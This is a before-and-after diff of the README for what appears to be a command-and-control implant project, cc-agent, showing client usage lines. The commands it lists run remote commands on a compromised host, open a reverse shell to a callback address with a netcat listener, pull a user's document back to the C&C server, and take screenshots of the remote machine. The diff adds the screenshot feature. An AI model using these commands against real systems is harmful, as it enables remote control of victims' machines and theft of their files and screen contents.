

Before and after one commit to JeanBonBeurre34/cc-agent, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Update README.md correct typo and screenshot
As user i can be guided to use the agent to take a screenshot

````diff
--- a/README.md
+++ b/README.md
@@ -80,13 +80,13 @@ You just need to:
 The implant support the execution of remote command. You can execute the command and retrieve the result of the command.
 Use the Python client to submit commands to the server:
 ```bash
-python client.py "ipconfig"
+python client.py --command "ipconfig"
 ```
 
 To initiate a reverse shell session, submit the special "shell" command:
 Replace the ip after the shell with your call back ip the port can be changed too.
 ```bash
-python client.py "shell 192.168.56.101:4444"
+python client.py --command "shell 192.168.56.101:4444"
 ```
 
 Ensure you have a listener running on the specified port before initiating the reverse shell:
@@ -98,7 +98,15 @@ nc -lvp 4444
 The C&C support downloading file from the remote host.
 To initiate a file to be downloaded just specify the path to the file on the remote host and the filename:
 ```bash
-python client.py "download c:\Users\vboxuser\Desktop\document.docx document.docx"
+python client.py --command "download c:\Users\vboxuser\Desktop\document.docx document.docx"
+```
+The file will be downloaded on the C&C server and stored on inside a local folder named received_file.
+
+### Take a screenshot on the remote host
+The C&C support taking a screenshot
+To initiate take a screenshot just type:
+```bash
+python client.py --command "screenshot"
 ```
 The file will be downloaded on the C&C server and stored on inside a local folder named received_file.
 
````
